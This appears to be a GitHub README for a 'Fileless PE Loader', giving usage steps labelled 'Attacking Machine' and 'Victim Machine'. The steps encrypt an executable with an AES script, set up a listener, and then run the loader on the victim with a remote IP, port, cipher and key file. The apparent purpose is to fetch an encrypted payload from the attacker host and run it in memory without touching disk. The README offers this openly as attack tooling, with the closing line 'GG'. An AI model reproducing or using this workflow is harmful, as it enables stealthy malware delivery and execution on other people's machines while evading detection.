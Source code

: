 # Fileless PE Loader

## Github repo: https://github.com/SaadAhla/FilelessPELoader

### Usage:

## Attacking Machine:

#### 1) python3 aes.py PE.exe

#### 2) After running the program, a cipher.bin and a key.bin is left in the current working directory (Check with ls)

#### 3) Setup Listener

## Victim Machine

#### 1) Compile with Visual Studio 

#### 2) FilelessPELoader.exe REMOTE_IP PORT CIPHER.bin KEY.bin

#### 3) GG

